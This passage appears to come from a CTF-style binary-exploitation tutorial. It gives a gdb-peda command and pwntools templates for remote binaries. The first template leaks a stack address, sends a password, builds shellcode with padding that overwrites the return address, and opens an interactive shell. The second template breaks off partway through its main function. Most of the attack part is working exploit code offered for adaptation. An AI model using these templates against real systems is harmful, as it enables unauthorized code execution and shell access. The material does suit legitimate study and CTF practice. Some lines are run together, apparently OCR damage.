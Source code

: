 ```
Gdb-peda$:run $(python shell.py)
```

And wait for the shell.

More code templates that you can use are below. Remember to adapt these templates to the user input the binary expects. #template-1 **Remote Binary**

```python
from pwn import * 

context.binary = ELF('./binary-name') # CHANGE-THIS 

p = remote('IP',PORT) 

# Use the sendline to process your input into the binary
p.sendline('1')  

# Use recvuntil to process any output from the binary. The example below is processing a memory address leaked from the binary.

p.recvuntil('0x') 
stack_base = int(("0x"+p.recv().decode('latin-1').split()[0]),16) 
log.success(f'stack base: {hex(stack_base)}')

p.sendline('2') 
p.sendline('b4tp@$$w0rd!') 

# Below we generate shellcode
payload = asm(shellcraft.popad() + shellcraft.sh()) # shellcode 

# Below we calculate the padding or the nop
payload += b'A'*(84 - len(payload)) # junk

# below we formulate the final payload with the stack address
payload += p64(stack_base) 

p.sendline(payload) p.sendline('3') 

# below to get interactive shell
p.interactive()
```

\#template-2 **Remote Binary** The below code expects you to supply the connection parameters instead of hardcoding them.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = 'binary-name' #CHANGE-THIS

# Below is function that expects you to provide the connection parameters as IP:PORT

def get_process():
    if len(sys.argv) == 1:
        return context.binary.process()

    host, port = sys.argv[1].split(':')
    return remote(host, int(port))


def main():
    p = get_process()

```